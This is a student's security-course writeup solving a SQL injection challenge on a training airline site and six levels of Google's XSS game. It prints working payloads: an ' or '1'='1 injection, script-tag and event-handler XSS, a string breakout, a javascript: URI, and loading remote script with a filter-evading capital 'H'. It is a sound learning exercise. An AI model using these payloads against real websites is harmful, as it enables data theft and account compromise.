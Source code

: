 Writeup 10 - Crypto II
=====

Name: Luke Mann
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Luke Mann

## Assignment 10 Writeup

### Part 1 (70 Pts)
I first visited `cornerstoneairlines.co:8080` and played around with the site, and clicking on a few of the links. I noticed that all of the listed items had the structure of `http://cornerstoneairlines.co:8080/item?id=NUM`. I tried adding some other numbers for the id first (-1,0,3, etc.), hoping to find an unlisted item, but that did not work out. Then, I noticed that the README for this week hints at __SQL__, so I figured it had to be an SQL injection that was needed. I tried adding the `' OR '1'='1` (from the presentation). This lead to the listing with id 1 (Cybersecurity Training Seminar) appearing, so I figured I had done something wrong with the injection. I tried playing around with some different SQL syntax and eventually found that just making the `OR` lowercase so that the URL was 
`cornerstoneairlines.co:8080/item?id=' or '1'='1` led to a new page with the `FLAG` of `CMSC38R-{y0U-are_the_5ql_n1nja}`!

### Part 2 (30 Pts)
1. My first thought was to insert JS code that would trigger the alert into the textbox in the center of the screen. I tried simply `alert('yo')` but this didn't do anything. I then tried wrapping it in `<script>` tags, and the alert appeared and I passed the challenge!

2. I tried inserting the same `<script>alert('yo')</script>` again, but nothing seemed to happen, so I tried it without the tags and the post was sent, telling me that the post is not valid if it has the `<script>` tags. I played around with a few different ways to get around this, including wrapping it in `<html>` tags. I eventually figured out that adding a `<input>` wrapper tag created an input box, which I needed to autofocus to use. I then set it so that it executed the JS code `alert('yo')` when it was automatically focused. The final script was `<input type="text" onfocus="alert('yo')" autofocus="" />`. 

3. I played around with the page a little bit, but I didn't see anything that stood out to me, so I looked at the code and saw that the html in the URL was being loaded via `$('#tabContent').html(html);`. I added the `<script>` tag with the alert code inside to the URL to get the final URL of `xss-game.appspot.com/level3/frame#'/><script>alert('yo')</script>`

4. After trying `<script>alert('yo')</script>`, I looked at the code. The code shows that upon the page loading the code `startTimer('{{ timer }}');` is being executed, where `{{timer}}` is the text input box. By manipulating the closing parenthesis and sending `10000');alert('yo` into the box, an alert appears. 

5. After looking through the code and playing with a few different URL combinations, I found that adding `javascript:` to the end of the sign-up URL successfully executed the JS following the statement. I then used the URL `xss-game.appspot.com/level5/frame/signup?next=javascript:alert('yo!')`, pressed the `Next >>` and passed the challenge!

6. The site automatically executes any JS file attached to the end of the URL (instead of `/static/gadget.js`). I knew that I needed to add a statement that would make it execute `alert('yo')`. I tried adding `javascript: `, as with challenge 5, but that didn't work. I then made a GitHub gist that executed an alert and just put the raw file in the URL. 
https://xss-game.appspot.com/level6/frame#Https://gist.githubusercontent.com/lukejmann/626c84f9da9c16934a0059cd2fa4d65f/raw/f53bff24da9935932e766ae28bcae2e4b746df41/yo.js. This did not work  (not sure why) so I experimented with trying different callbacks to get around any URL checks in the code. I eventually used Google's JS alert callback (`Https://www.google.com/jsapi?callback=alert`), for the complete URL of `https://xss-game.appspot.com/level6/frame#Https://www.google.com/jsapi?callback=alert`, which worked! I capitalized the `H` to get around the code's explicit check for `http`.